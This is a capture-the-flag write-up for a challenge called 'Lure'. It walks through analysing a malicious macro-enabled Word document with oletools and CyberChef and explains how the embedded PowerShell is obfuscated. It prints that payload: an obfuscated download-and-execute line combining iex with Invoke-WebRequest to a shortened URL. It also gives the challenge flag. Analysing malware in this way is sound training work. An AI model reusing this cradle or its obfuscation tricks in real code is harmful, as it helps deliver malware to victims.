



# WRITE_UP #

## LURE ##

### 1. Analysis ###
* **Given:** a doc file named `UrgentPayment`.
* **Description:** The finance team received an important looking email containing an attached Word document. Can you take a look and confirm if it&#039;s malicious?
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### EZ PZ ####
Given a `.docm` file, let's use `oletools` to analyze it. First I ran `oleid` to determine the uncommon thing in this file



As you can see, there's a high chance that a malicious VBA Macro is injected in the document. Now let's use `olevba` to investigate the vba:



Inside the VBA is a base64 encoded string, using `CyberChef`, I'm able to decode the PowerShell script the attacker tries to run on the victim's machine:



```ps1
pOwErshElL $(-jOiN(($PshOMe[4]),("$PsHoME")[+15],"x");)(iwr $(("{5}{25}{8}{7}{0}{14}{3}{21}{2}{22}{15}{16}{31}{28}{11}{26}{17}{23}{27}{29}{10}{1}{6}{24}{30}{18}{13}{19}{12}{9}{20}{4}"-f "B","U","4","B","%7D","ht","R_d","//ow.ly/HT","p:","T","0","_","N","M","%7","E","f","1T","u","e","5","k","R","h","0","t","w","_","l","Y","C","U")))
```

This challenge is quite easy, even without knowing about what's going on, you will also get the flag, but here I break the script down a little bit:

* The `($PshOMe[4]),("$PsHoME")[+15],"x"` is actually `iex`, since the variable `$PsHome` often refer to the path `C:\Windows\System32\WindowsPowerShell\v1.0`, index [4] in the string is `i`, [+15] just another way to write [15] which is `e`. You can read more about it here: [about_PSModulePath](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_psmodulepath?view=powershell-7.6)
* The `-f` is format operator in PowerShell. It defines a string with index then map the string array to their right index number. You can read more about it here: [about_Operators](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_operators?view=powershell-7.6)

After a few times, I could decode the hidden payload: `http://ow.ly/HTB7BBk4REfUl_w1Th_Y0UR_d0CuMeNT5%7D`
In URL encoding, `7B` and `7D` represent the brackets `{}`, so we get the flag in the concatinated url.

### 3. Solution ###
1. **Result:** The flag is `HTB{Bk4REfUl_w1Th_Y0UR_d0CuMeNT5}`


